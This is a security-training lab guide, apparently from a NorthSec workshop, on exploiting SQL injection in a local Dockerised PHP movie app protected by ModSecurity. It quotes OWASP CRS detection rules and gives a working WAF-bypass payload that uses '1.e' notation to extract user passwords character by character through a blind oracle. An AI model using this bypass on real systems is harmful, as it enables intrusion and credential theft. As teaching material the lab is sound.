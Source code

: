 # SQL Syntax Lab

## Launching the instance

```
$ cd 03-sqli
$ docker-compose up
```

Open [http://localhost](http://localhost) in a browser to confirm that everything is running.


Initialize the database by fetching `db_reset.php`.

![](images/lab3_reset.png)


[Live instance (only for NorthSec)](http://nsec2022.xss.lol/){ .md-button .md-button--primary target=_blank}

## Finding the SQL injections

There are two SQL injection vulnerabilities in the applications.

??? success "Answer"

    - `genre` parameter from the `index.php` page.

    - `id` parameter from the `movie_detail.php` page.


    Detection can be done
    
    ```
    GET /?genre=actio'%20'n HTTP/1.1
    Host: localhost
    [...]
    ```

## ModSecurity

As soon as you will test the parameters with SQL keywords, modsecurity return a Forbidden page.

![](images/lab3_forbidden.png)

Does the `union` and `select` are systematically blocked?

??? success "Answer"

    "Union" and "select" are english words that are too common to always be blocked.

    You can confirm this behavior by requesting `index.php?genre=union`
    
    ModSecurity is a combination of RegEx and context analysis by libinjection. Looking at the log you will be able to see which rule is triggered.


## Log Troubleshooting

The log is pretty verbose because they attach complete requests.

Here is a Regex rule that matched:
```
ModSecurity: Warning. Pattern match \"(?i:(?:[\\\\\\\\\"'`](?:;?\\\\\\\\\\\\\\\\s*?(?:having|select|union)\\\\\\\\\\\\\\\\b\\\\\\\\\\\\\\\\s*?[^\\\\\\\\\\\\\\\\s]|\\\\\\\\\\\\\\\\s*?!\\\\\\\\\\\\\\\\s*?[\\\\\\\\\"'`\\\\\\\\\\\\\\\\w])|(?:c(?:onnection_id|urrent_user)|database)\\\\\\\\\\\\\\\\s*?\\\\\\\\\\\\\\\\([^\\\\\\\\\\\\\\\\)]*?|u(?:nion(?:[\\\\\\\\\\\\\\\\w(\\\\\\\\\\\\\\\\s]*?select| select @)|ser\\\\\\\\\\\\\\\\s*?\\\\\\\\\\\\\\\\([^\\\\\\\\\\\\\\\\)]*?)|s(?:chema\\\\\\\\\\\\\\\\s*?\\\\\\\\\\\\\\\\([^\\\\\\\\\\\\\\\\)]*?|elect.*?\\\\\\\\\\\\\\\\w?user\\\\\\\\\\\\\\\\()|in ...\" at ARGS:genre. 
[file \"/etc/modsecurity.d/owasp-crs/rules/REQUEST-942-APPLICATION-ATTACK-SQLI.conf\"] 
[line \"183\"] [id \"942190\"]
```

Here libinjection
```
[id \"942100\"] 
[msg \"SQL Injection Attack Detected via libinjection\"] 
[data \"Matched Data: s&(s) found within ARGS:genre: union' or ('')='\"] 
[severity \"CRITICAL\"]
```

Can you use the scientific notation to confuse modsecurity? If you want the solution, read the next section.

## Exploitation

Here is the general syntax necessary to exfiltrate varchar values from the database. 

=== ":octicons-check-circle-fill-16: Obfuscated query"

    With the `1.e` notation expression that is ignored by the DBMS.

    ```sql
    or 1.e(ascii 1.e(substring(1.e(select password from users limit 1 1.e,1 1.e) 1.e,1 1.e,1 1.e)1.e)1.e) = 70 or'1'='2
    ```

=== ":octicons-skip-16: Actual query"

    This is how the DBMS will interpret the query.

    ```sql
    or (ascii (substring((select password from users limit 1,1) ,1 ,1 ))) = 70 or'1'='2
    ```

> With this SQL syntax, we are targeting the field `password` from the table `users`. The function substring is used to extract one character at the time and compare it to an ascii value (`70` in the example).

## Scripting

Once you have a working request that is producing an oracle (binary response based on the matching content). It is possible to script an attack to extract the complete content of any database tables.

